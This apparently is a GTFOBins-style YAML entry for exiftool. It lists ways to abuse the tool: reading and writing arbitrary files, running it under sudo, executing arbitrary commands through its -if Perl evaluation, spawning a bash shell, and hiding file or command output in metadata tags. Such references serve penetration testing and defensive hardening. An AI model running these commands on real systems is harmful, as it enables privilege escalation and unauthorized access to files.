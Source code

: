 ```yaml
---
description: |
  If the permissions allow it, files are moved (instead of copied) to the destination.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        OUTPUT=output_file
        exiftool -filename=$OUTPUT $LFILE
        cat $OUTPUT
    - description: Exfiltrate file data via metadata tags
      code: |
        LFILE=file_read
        INPUT=input_file
        exiftool "-description<=$LFILE" --filename $INPUT
  file-write:
    - code: |
        LFILE=file_to_write
        INPUT=input_file
        exiftool -filename=$LFILE $INPUT
    - description: Write file from metadata tag's content
      code: |
        LFILE=file_to_write
        INPUT=input_file
        exiftool -description -W $LFILE --filename $INPUT
  sudo:
    - code: |
        LFILE=file_to_write
        INPUT=input_file
        sudo exiftool -filename=$LFILE $INPUT
  command:
    - code: |
        COMMAND=command_to_execute
        INPUT=input_file
        exiftool -if "system('$COMMAND');1" --filename $INPUT
    - description: Run system command and exfiltrate result via metadata tags
      code: |
        COMMAND=command_to_execute
        INPUT=input_file
        exiftool -userparam "inj=Test" -if "\$\$self{OPTIONS}{UserParam}{inj}=\`$COMMAND\`;1" '-description<$inj' --filename $INPUT
  shell:
    - code: |
      INPUT=input_file
      exiftool -if "system('bash')" $INPUT
---
```


